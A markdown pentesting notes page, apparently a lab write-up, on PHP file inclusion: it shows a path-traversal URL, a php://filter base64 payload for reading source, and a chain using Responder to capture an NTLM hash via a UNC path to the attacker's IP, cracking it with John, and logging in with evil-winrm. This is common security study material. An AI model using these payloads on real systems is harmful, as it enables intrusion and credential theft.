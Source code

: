 ```yaml
---
title: 'File Inclusion'
desc: 'Unprotected URL and Services allows assets exploration.'
tags: 'techniques,tools'
---
```


# File Inclusion: Local & Remote

Unprotected URL and Services allows assets exploration.


## Remote File Includsion

* PHP upon Windows Services abusing NTLM

This access type abuse the Local File Include (LFI) vulnerability. Which allows to include paths in the URL like "http://target.com/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts".

This is a wordlist to find common paths to resources. https://github.com/drtychai/wordlists/blob/master/intruder/lfi.txt

It's possible to get a page in base64 looking for credentials abusing the url apllying filters, php filters in this case: index.php?page=php://filter/convert.base64-encode/resources=index.php

See more in https://book.hacktricks.xyz/pentesting-web/file-inclusion

1. responder: set the interface

```
# here is using the VPN to access the target
responder -I tun0 
```

2. vulnerable URL: request for our machine

```
"http://target.com/index.php?page=//10.10.14.16/somefile"
```

3. Responder gives a Hash
4. Save the Hash in file
5. Break the Hash using John the Ripper + a wordlist

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$> badminton
```

6. evil-rwin

```
evil-winrm -i 10.129.243.212 -u Administrator -p badminton 
```

## How NTLM is abussed

If a Windows client cannot resolve a hostname using the DNS service, 
it pushed the multicast name resolution protocol or better called “LLMNR” 
to ask neighboring computers to resolve IPv4 and even under IPv6 addresses.

If the request using LLMNR fails, the NetBios Name Service or NBT-NS protocol 
was reasserted which accomplishes the same goal as above.

So when a host uses LLMNR or NBT-NS to resolve a request for a network resource, 
it is possible that any host on the network that knows the IP address 
of the queried host can respond. Even if a host responds to one of these requests 
with incorrect information, it will still be considered legitimate, 
at that stage where the Responder.py tool is placed to capture credentials.





